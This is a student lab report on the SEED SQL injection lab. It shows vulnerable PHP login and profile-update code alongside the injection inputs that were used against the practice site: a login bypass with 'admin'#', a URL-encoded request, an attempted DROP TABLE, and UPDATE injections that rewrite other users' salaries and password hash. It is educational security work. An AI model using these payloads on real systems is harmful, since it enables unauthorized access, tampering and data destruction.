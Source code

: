 # SQL Injection Attack Lab Report

This lab focused on understanding how to exploit a website (http://www.seed-server.com) vulnerable to SQL injection attacks. This websites lets the user login with a username and password, and then displays the user's information. The website also has a page that allows the user to update their profile information. The website is vulnerable to SQL injection attacks in both pages.

## Task 1

In the first task, our goal was to extract information about the user Alice from the database. To achieve that, we used the following query:

```sql
SELECT * FROM CREDENTIAL WHERE NAME = 'Alice';
```

The desired information was successfully obtained:

![Alice Information](img/alice_inf.jpeg)

## Task 2.1

In this task, our objective was to inject the SELECT statement used for login to gain access as the admin and retrieve all user information. 
The original PHP code snippet and pseudo code for the authentication logic are the following:

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$input_uname' and Password='$hashed_pwd'";
$result = $conn->query($sql);
```

Pseudo code:
```c
// The following is Pseudo Code
if(id != NULL) {
    if(name=='admin') {
        return All employees information;
    } else if (name !=NULL){
        return employee information;
    }
} else {
    Authentication Fails;
}
```

To achieve our goal we input `admin'#` into the username field of the login form, resulting in the following query:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
        nickname, Password
        FROM credential
        WHERE name= '$admin'# and Password='$hashed_pwd'
```


By doing this we successfully bypassed the authentication, revealing all users' information:

![All Users Information](img/all_users.jpeg)

This works because the attribute name in the query will acquire the value admin, and the rest of the code will be commented due to the #, this way the query will return all the rows where name is `admin`.


Note that the password can be anything since it is not used due to the username commenting out the rest of the statement.

## Task 2.2

For this task, we replicated the previous objective of gaining unauthorized access, but instead of using the login form, we made an HTTP request with the curl tool:

```http
http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=
```

To do so we had to replace the apostrophe by the value "%27" and the '#' by the value "%23".

The result displayed the same information as before:

![All Users Information Part 1](img/all_users1.jpeg)
![All Users Information Part 2](img/all_users2.jpeg)

## Task 2.3

In this task, we attempted to execute two SQL statements with a single SQL injection by entering `admin';DROP table credential;#` in the username field. However, this resulted in an error page due to the lack of support for multi-queries in the `mysql::query` function. This precaution is in place to reduce the damage from SQL injection attacks.

![Query Info](img/query_info.png)

![Error Page](img/error_page.jpeg)

## Task 3.1

# Task: Impersonating Alice to Update Salary

In this task, our objective was to impersonate Alice and inject an UPDATE statement used for editing the users information through the edit form on the server so that we could modify our salary. The edit form on the server included the following fields  NickName, Email, Address, Phone Number, and Password.

![Edit Page](img/edit_page.jpeg)

The original PHP code snippet for editing a user is as follows:

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
        nickname='$input_nickname',
        email='$input_email',
        address='$input_address',
        Password='$hashed_pwd',
        PhoneNumber='$input_phonenumber'
        WHERE ID=$id;";
$conn->query($sql);
```

To achieve our goal, we used  `Alice', salary = 50000 where Name='Alice'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Alice', salary = 50000 where Name='Alice'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```


This injection successfully updated Alice's salary to 50000.

![Alice's Salary](img/alice_salary.jpeg)

This injection works because the attribute `nickname` in the query takes on the value `Alice` without altering the original nickname. The salary is set to 5000, the WHERE condition ensures that only the row corresponding to Alice is modified, and the rest of the code is commented out due to the `#`. Consequently, the query effectively updates Alice's salary.

## Task 3.2

Similarly to the previous task, we aimed to change the salary of an user however this time we will change the salary of the user named 'Boby' to 1. 

To achieve this we used  `Boby', salary = 1 WHERE Name='Boby'; #`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', salary = 1 where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's salary to 1 

![Boby Information](img/boby_inf.jpeg)

## Task 3.3

In the final task, the goal was to change the password of the user `Boby` to a specified value `godpacheco`. As the passwords were hashed using ***SHA1***, we hashed our chosen password `godpacheco` before inserting it into the database. The hashed password was `e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7`.

To achieve our goal we used  `Boby', Password='e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' WHERE name='Boby'#`  as an input for the NickName field, resulting in the following query:

```sql
UPDATE credential SET
        nickname='Boby', Password = 'e64099ccde3bdc7bd8fcddb5d9a23621cb7063a7' where Name='Boby'; #email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber'WHERE ID=$id;
```

This successfully changed the Boby's password':

![Boby Password](img/boby_password.jpeg)
